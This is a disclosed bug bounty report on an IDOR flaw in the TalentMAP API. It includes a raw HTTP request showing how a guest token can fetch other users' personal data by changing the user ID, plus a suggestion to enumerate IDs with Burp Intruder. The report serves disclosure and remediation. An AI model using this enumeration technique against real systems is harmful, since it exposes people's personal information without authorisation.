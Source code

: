 # IDOR in TalentMAP API can be abused to enumerate personal information of all the users

## Report Details
- **Report ID**: 1848176
- **URL**: https://hackerone.com/reports/1848176
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-01-26T19:13:04.200Z
- **Disclosed**: 2023-04-11T01:49:37.950Z

## Reporter
- **Username**: nhx1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: us-department-of-state

## Vulnerability Information
## Summary:

I hope you're having a good day. Before starting to describe this vulnerability, I would like to thank the HackerOne triage team for doing the difficult job of triaging all these issues. 

I observed an IDOR vulnerability in one of the endpoints in the Talentmap API. This vulnerability is similar to #1809328. In this report I will demonstrate ways to enumerate all user accounts in the Talentmap API logged in as a guest user. To triage this vulnerability, you need to manually build it in your system, the build instructions can be accessed in the report #1809328 where HackerOne team has successfully built the Talentmap API. However, if you're having issues building it, drop a message!

After building the API, please go inside the docker container and run the following commands to create_seeded_users.

1. `$ python manage.py create_demo_environment` 
2.  `$ python manage.py create_seeded_users`

Also, go into the docker container and create some test users:
1. `$ python manage.py create_user normalUser normaluser@gmail.com normalUser123 Normal User`
2.  `$ python manage.py create_user normalUser1 normaluser1@gmail.com normalUser123 Normal User`
3. `$ python manage.py create_user normalUser2 normaluser2@gmail.com normalUser123 Normal User`

** Some details: **
i. The vulnerable endpoint = http://localhost:8000/api/v1/permission/user/{USER_ID}/  

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. After running the API, browse `http://localhost:8000` and login using the credentials `username: guest , password: guestpassword ` , and copy the token obtained in the respones

{F2139636}

{F2139638}

  2. Send the following request to http://localhost:8000. Replace {USER_ID} to the user id of the user you want to enumerate information of. Replace {token} to the token you obtained in step 1

```
GET /api/v1/permission/user/{USER_ID}/ HTTP/1.1

Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/
JWT: {token}
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

  3. Observe user information returned in the response

Additionally, you could also use Burp intruder to cycle through user-ids from 1 to 100 to get information of all users in the database.

{F2139641}

##Remediation Guidance

Implement access control mechanism. Allow the user to only fetch their information.

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

## Impact

A malicious actor could fetch information of all users and cause a data breach

## Attachments
- image.png
- image.png
- image.png
